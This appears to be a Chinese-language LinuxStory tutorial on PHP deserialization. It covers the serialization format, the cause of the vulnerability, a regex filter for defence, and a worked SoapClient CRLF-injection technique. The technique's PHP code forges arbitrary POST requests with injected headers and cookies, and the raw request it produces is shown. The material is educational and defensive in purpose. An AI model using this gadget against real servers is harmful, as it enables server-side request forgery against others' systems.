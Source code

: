 #  深度理解PHP反序列化：漏洞产生原理及其利用技巧

LinuxStory  [ LinuxStory ](javascript:void\(0\);)

**LinuxStory** ![]()

微信号 linuxstory

功能介绍 Linux Story是一个全新的Linux资讯网站，每天为您带来第一手的开源资讯和新鲜温暖的科技故事。

____

___发表于_

收录于合集

序列化和反序列化是一个程序中的常见过程，其中对象被序列化成字符串，仅保留对象中的成员变量而不包括函数方法。这种过程常用于对象的持久化存储。

我们来看一个示例，由于`\0`字符无法复制，所以我们将其替换为URL编码后的`%00`以便于观察：

    
    
    <?php  
    class class1  
    {  
        public $pbl = "pbl_v";  
        protected $prt = "prt_v";  
        private $prv = "prv_v";  
        public function func()  
        {  
            return "func_ret";  
        }  
    }  
      
    $o = new class1();  
    $s = serialize($o);  
    $s = str_replace("\0", '%00', $s);  
    echo $s;  
    

序列化结果如下，可以看到其中仅包含属性和值，而并不包含方法：

    
    
    O:6:"class1":3:{s:3:"pbl";s:5:"pbl_v";s:6:"%00*%00prt";s:5:"prt_v";s:11:"%00class1%00prv";s:5:"prv_v";}  
    

这个序列化后的对象结构的含义为：

    
    
    O:对象名的长度:"对象名":对象属性个数:{s:属性名的长度:"属性名";属性类型:属性值的长度:"属性值";}  
    

## 访问控制修饰符序列化规则

根据不同的访问控制修饰符，序列化后的属性名会有所不同，具体规则如下：

  * `public`（公有的）：属性名

  * `protected`（受保护的）：%00*%00属性名

  * `private`（私有的）：%00类名%00属性名

> `%00`表示`\0`字符。

## PHP序列化属性类型

在PHP序列化中，不同的属性类型有不同的标识：

  * `a` \- array 数组型

  * `b` \- boolean 布尔型

  * `d` \- double 浮点型

  * `i` \- integer 整数型

  * `o` \- common object 共同对象

  * `r` \- object reference 对象引用

  * `s` \- non-escaped binary string 非转义的二进制字符串

  * `S` \- escaped binary string 转义的二进制字符串

  * `C` \- custom object 自定义对象

  * `O` \- class 对象

  * `N` \- null 空

  * `R` \- pointer reference 指针引用

  * `U` \- unicode string Unicode 编码的字符串

## 反序列化漏洞产生原理及其防护

反序列化漏洞产生的主要原因是反序列化过程中的参数用户可控。当服务器接收序列化后的字符串，并且未经过滤地将其中的变量放入一些魔术方法中执行，这就可能产生漏洞。

为了避免此类漏洞的产生，我们可以过滤`/[oc]:\d+:/i`：

    
    
    preg_match('/[oc]:\d+:/i', $a);  
    

或者在数字前加`+`号：

    
    
    str_replace('O:', 'O:+', $a);  
    

## PHP原生类SoapClient的利用

PHP原生类SoapClient是一个用于与Web服务交互的类。它提供了一种轻松访问Web服务的方法，可以在PHP中使用SOAP协议与远程服务器进行通信。

### SoapClient的`__call`方法

当尝试调用未定义的Web服务方法时，`__call`方法会自动被调用，并将方法名和参数传递给Web服务。

例如，执行以下代码：

    
    
    $client = new SoapClient(null, array('uri' => 'uri', 'location' => 'http://127.0.0.1:5555/', 'user_agent' => 'ua'));  
    $client->not_exists_function();  
    

会产生以下的调用链：`SoapClient-&gt;__call('not_exists_func...',
Array)-&gt;SoapClient-&gt;__doRequest('&lt;?xml version=&quot;...&#039;,
&#039;http://127.0.0....&#039;, &#039;uri#not_exists_...&#039;, 1, 0)`。

### 利用SoapClient执行任意POST请求

在SoapClient中，`SOAPAction`和`User-
Agent`可被控制，这就使得我们可以注入`CRLF`来控制POST请求的header或者更改`Content-
Type`的值。例如，我们可以在下面的代码中对`UA`进行`CRLF`注入：

    
    
    <?php  
    $target = 'http://127.0.0.1:5555';  
    $post_string = 'name=value';  
    $headers = array(  
        'X-Forwarded-For: 127.0.0.1, 127.0.0.1',  
        'Cookie: name=value'  
    );  
      
    $client = new SoapClient(null, array(  
        'uri' => 'uri',  
        'location' => 'http://127.0.0.1:5555/',  
        'user_agent' => 'p0ise'."\r\n".  
                        'Content-Type: application/x-www-form-urlencoded'."\r\n".  
                        join("\r\n", $headers) . "\r\n".  
                        'Content-Length: ' . (string)strlen($post_string) . "\r\n\r\n" .  
                        $post_string  
        )  
    );  
      
    $client->not_exists_function();  
    

此代码会产生以下的报文：

    
    
    POST / HTTP/1.1  
    Host: 127.0.0.1:5555  
    Connection: Keep-Alive  
    User-Agent: p0ise  
    Content-Type: application/x-www-form-urlencoded  
    X-Forwarded-For: 127.0.0.1, 127.0.0.1  
    Cookie: name=value  
    Content-Length: 13  
      
    name=value  
    Content-Type: text/xml; charset=utf-8  
    SOAPAction: "uri#not_exists_function"  
    Content-Length: 382  
      
    <?xml version="1.0" encoding="UTF-8"?>  
    <SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="uri" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:not_exists_function/></SOAP-ENV:Body></SOAP-ENV:Envelope>  
    

## 总结

通过以上解释，我们可以看出，理解PHP序列化和反序列化的原理及其相关漏洞的产生和防护是非常重要的，因为它涉及到数据的持久化存储和安全性。同时，也说明了如何利用PHP原生类SoapClient进行交互，并可能产生的安全风险。在编写代码时，我们需要特别注意对这些可能产生的漏洞进行预防，以确保数据的安全。

* * *

本文链接: https://linuxstory.org/in-depth-understanding-of-php-deserialization-
the-principle-of-vulnerability-generation-and-its-utilization-skills

LinuxStory 原创教程，转载请注明出处，否则必究相关责任。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

